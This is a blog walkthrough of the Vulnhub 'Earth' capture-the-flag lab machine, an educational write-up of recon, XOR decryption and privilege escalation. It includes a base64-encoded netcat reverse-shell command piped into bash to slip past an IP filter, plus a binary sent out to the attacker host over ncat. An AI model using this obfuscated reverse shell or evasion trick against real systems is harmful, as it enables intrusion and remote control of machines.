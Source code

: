 ```yaml
---
layout: post
title: "Vulnhub Earth Walkthrough"
date: 2023-04-10 10:00:00 +0000
categories: [post, hacking]
tags: [post, hacking, medium]
---
```

This blog post will be focused on a walkthrough on hacking Vulnhub’s The Planets: Earth machine. There are two flags to be found according to the description: “a user and root flag which include an md5 hash”. The tools covered here will be nmap, dirb, and CyberChef.


The first thing I did on my Kali Linux machine was to see if the vulnerable machine was up and running, and to find out the machine’s IP address.


My Kali Linux machine is 192.168.56.22, so Earth’s address must be 192.168.56.23. And according to the nmap scan, the ports open up are ports 22 (SSH), 80 (HTTP), and 443 (HTTPS). Those two ports open up means there must be a web application. Before doing anything else, I opened up my browser in order to see what the web application looks like, and see if I can find anything I can use.

If you use http to view the web app, you will see a 400 error. However, if you use https, you will see a default web page. If you take a look at the certificate, you will see the DNS name for the web server.


HTTP

HTTPS
In order to continue with reconnaissance, I used a few tools. The first was a specific nmap scan of the machine.


Breaking down the nmap command, -p 22,80,443 just means I’m scanning those ports. I figured since this was an ‘easy’ machine, I really wouldn’t need to scan for more. -O is for the operating system, which you need sudo (root or administrator on Linux) privileges for, and the -sV flag is getting the service versions for those services running. I’m basically just looking for potential vulnerabilities. If outdated versions of services are running, for example, then I can use that to get into the system.

As a side note, when you’re doing this, you should direct the output to a file. I forgot to do that, and when I wanted to get the information again, I had to run a second nmap scan. It’s not a big deal in this scenario, but in an actual penetration test, that is probably a big mistake.

To do a little bit more web enumeration, I used the dirb command, a command line web enumeration tool, in order to find out what directories on the service are running. If you don’t specify the wordlist, it will default to common.txt. That was what I wanted, so I didn’t use any other wordlist for this particular stage. And again, I would definitely append this to a file so you can reference it later.

The results of the dirb scan said there was one directory, the cgi-bin directory, and that returns a 403 error.


Up until this point I was using the ip address for nmap and dirb. And while doing that, I couldn’t figure anything out. The versions of http and https didn’t have vulnerabilities that I was going to be able to exploit. It looked like I had hit a dead end. I looked at the certificate again, and I edited my /etc/hosts file to map the hostname to the ip address. After I did that, this web enumeration became a lot easier. You can just use any text editor of choice to map the ip address to ‘earth.local’ and ‘terratest.earth.local’.



From the screenshot, there is a user input field that allows me to send a message to Earth. There are previous messages that also look encrypted.

Doing another dirb scan of both earth.local and terratest.earth.local, there is a new directory, called admin. When I visit there, there is a login field. This is a good discovery, but I don’t really have any useful information. I don’t have usernames and I don’t have passwords.



Also, up until this point, I was using http for the dirb scan. Switching up to https, however, gave me much more detail.


It specifically gave me a robots.txt file. That file essentially just tells web crawlers what pages they can and can’t visit. Visiting the robots.txt page, one disallowed directory caught my eye. Visiting that page got me a username, and it also got me the encryption method (XOR).



And then going to the other page mentioned, testdata.txt, got me this message.


That message, mentioned in the previous page, is the key used. When it comes to encryption, if the key is compromised, then a new key needs to be used asap. You definitely do not want any attackers finding your encryption key. Anything encrypted can be decrypted using the key.

Trying to decode the first two messages on the web page is useless, they’re just nonsensical messages. The third one is the most important one. To decode it, I went to CyberChef.

This part took a lot of googling on my part, but I found that converting the message From Hex, and then using XOR with the testdata.txt as the key managed to decrypt the message.


That looks like it could be something good, like a password. I have a username ‘terra’. Going back to the login page, I tried that as the password, and I was in the system.


And I could run commands. The first thing I wanted to do was set up a netcat listener. I ran ‘which nc’ to make sure the ‘nc’ command was on the machine. It was on the machine, so I could theoretically run it.


However, when I tried to run it, I ran into that message. I would have to figure out another way of getting into the system. That however, took a while, so before that I decided to run “locate ‘flag’” to see if I could find the first flag just on this CLI interface.



With the first flag found, I needed to figure out how I could spawn that shell on the system. The easiest solution would be to see if I could view the /etc/passwd and /etc/shadow file. If I could, then I could just brute force passwords. However, while the /etc/passwd was viewable, /etc/shadow was not.

Experimenting with it a bit further, and with a bit more googling and playing around with it, I found that the remote connections are being detected by IP address in the command.


In the screenshot, even though the command ‘echo’ is not going to set up a remote connection, it is still blocked because of the IP address. As a side note, if you type in an invalid IP address (if any of the numbers are over 255), then it’ll go through. So it’s not only testing the format, it’s also testing if it is a valid IP address.


So using that knowledge to set up a listener, I did the following steps. There are probably easier ways to do this, but this is how I did it.

Encode the command that I’m going to run on the web CLI. This command is going to set up the listener. Encoding it will ensure that the command will slip through whatever is detecting the IP address. You can probably use any command line encryption method, but I used base64.


Set up a netcat listener on your port of choice.


On the victim web application, echo the encoded command, pipe the output to be decoded, and then run ‘bash -’ to ensure that the stdin is run as a command. It should look something like this:
echo “bmMgMTkyLjE2OC41Ni4yMiA0NDQ0IC1lIC9iaW4vYmFzaAo=” | base64 -d | bash -


After doing all that, I have a listener on the machine! And to make sure I had some more interface control, I spawned an interactive shell.


And now, I had to figure out how to pivot from here. I am currently an apache user, and I need to figure out how to get to root. The first thing I did was run ‘sudo -l’ to figure out what I can run as a sudo user. However, even that required a password, so I figured that wasn’t going to be fruitful.


Running the above command finds all binaries where they run as the owner of the file, not as the user who called it. There is a binary called ‘reset_root’. If you try to run that, it fails and says that “all triggers not present”. I figured I needed to find out what those triggers are. Using the strings command, I wanted to see exactly what this binary does. I found that if the binary runs successfully, root’s password will be changed to ‘Earth’. To figure out what exactly the triggers needed to be, I transferred the binary over to my Kali Linux machine. To do that, I just set up a ncat listener on my Kali machine to send any output to a file, and then sent it over on the shell I had on the victim machine.



Then after that, I changed the permissions on the reset_root binary so that it is executable, and then used the ltrace command on it. Ltrace is essentially a command that runs another binary and sees what libraries are called. This is a great way to see what the ‘triggers’ the binary needs.


And I saw what the triggers were for the binary to run successfully. I switched back over to the reverse shell, and I created those files. Then after running the binary, root password was switched to Earth.


And then after that getting the root flag was straightforward. I switched over to root, went to the root directory, and the flag was there.



This was a fun machine, and it is apparently the third in a series (Earth being the third planet from the sun). I think the main thing I learned from this was to basically not overlook anything. There were a few times during this where I was lost because of something I overlooked.

